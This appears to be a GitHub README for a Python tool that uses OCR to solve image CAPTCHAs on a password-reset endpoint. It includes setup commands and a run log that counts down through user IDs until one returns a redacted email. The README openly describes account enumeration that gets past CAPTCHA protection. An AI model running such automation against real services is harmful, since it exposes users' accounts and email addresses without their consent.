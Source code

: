 # CAPTCHA Bypass

This project uses Python3 and the EasyOCR library. It works on simpler CAPTCHAs where an image containing characters is presented and the characters need to be submitted via HTTP to a web service to pass the challenge. Accuracy goes down with more image noise.

This was made super quick and dirty and targets a CAPTCHA-protected forgot password feature. There are few enhancements that could stand to be made:
*  Read a list of usernames from a file, instead of counting down to known userID in a contrived way.
*  Try again if 'CAPTCHA challenge failed' response received, rather than blowing right by.
*  Output could be optimized to only show valid username hits.
*  Could be run from a machine with a dedicated GPU or could potentially take advantage of multi-threading.
*  Additional conditions for corrections when CAPTCHA solutions fail in predictable ways, (line 28)
    *  e.g. "I" is mistaken for pipe char (|), or 
    *  "J" is mistaken for right bracket (]).

Dependencies:
*  EasyOCR - to read text from images
*  pillow - to read image from file
*  requests - to pull down images and to submit follow up challenge answers

Setup:
```
pipenv install pillow easyocr requests
pipenv shell
python3 ./captcha-ocr-bypass.py
```

Example output:<br />
In the output below the application is responding "FAILURE" because the submitted username is invalid, but is also responding "Captcha success" since the CAPTCHA solution was correct. In the final application response, both the username and the CAPTCHA solution are valid.<br />
It may not be obvious that the "\[-\] Captcha processing:" text is the output from EasyOCR that needs trimmed and whitespace removed.

The CAPTCHA challenge image from the final response:<br />
![Final CAPTCHA challange image](https://github.com/andrewantles/captcha-bypass/blob/main/tmp-img_1.jpg)

```
CUDA not available - defaulting to CPU. Note: This module is much faster with a GPU.
[-] Capthca processing: ['M   6 5 U G T']
[-] Captcha solution is: M65UGT
[-] Sending URL: https://[target-domain]/captcha/valid/username?userid=[redacted-ending-in]07&captchastring=M65UGT
[*] Application response: {"status":"FAILURE","info":"Captcha success","email":null}
CUDA not available - defaulting to CPU. Note: This module is much faster with a GPU.
[-] Capthca processing: ['A R B 6 A |']
[-] Captcha solution is: ARB6AI
[-] Sending URL: https://[target-domain]/captcha/valid/username?userid=[redacted-ending-in]06&captchastring=ARB6AI
[*] Application response: {"status":"FAILURE","info":"Captcha success","email":null}
CUDA not available - defaulting to CPU. Note: This module is much faster with a GPU.
[-] Capthca processing: ['J   6 7 G', 'P D']
[-] Captcha solution is: J67GPD
[-] Sending URL: https://[target-domain]/captcha/valid/username?userid=[redacted-ending-in]05&captchastring=J67GPD
[*] Application response: {"status":"FAILURE","info":"Captcha success","email":null}
CUDA not available - defaulting to CPU. Note: This module is much faster with a GPU.
[-] Capthca processing: ['G 4 9 Y T 7']
[-] Captcha solution is: G49YT7
[-] Sending URL: https://[target-domain]/captcha/valid/username?userid=[redacted-ending-in]04&captchastring=G49YT7
[*] Application response: {"status":"FAILURE","info":"Captcha success","email":null}
CUDA not available - defaulting to CPU. Note: This module is much faster with a GPU.
[-] Capthca processing: ['L R  S P W C']
[-] Captcha solution is: LRSPWC
[-] Sending URL: https://[target-domain]/captcha/valid/username?userid=[redacted-ending-in]03&captchastring=LRSPWC
[*] Application response: {"status":"FAILURE","info":"Captcha success","email":null}
CUDA not available - defaulting to CPU. Note: This module is much faster with a GPU.
[-] Capthca processing: ['D 9 3', 'T T S']
[-] Captcha solution is: D93TTS
[-] Sending URL: https://[target-domain]/captcha/valid/username?userid=[redacted-ending-in]02&captchastring=D93TTS
[*] Application response: {"status":"FAILURE","info":"Captcha success","email":null}
CUDA not available - defaulting to CPU. Note: This module is much faster with a GPU.
[-] Capthca processing: ['VR  6 R 6', 'D']
[-] Captcha solution is: VR6R6D
[-] Sending URL: https://[target-domain]/captcha/valid/username?userid=[redacted-ending-in]01&captchastring=VR6R6D
[*] Application response: {"status":"SUCCESS","info":"Captcha success","email":"[redacted]@[user-domain].com"}
```

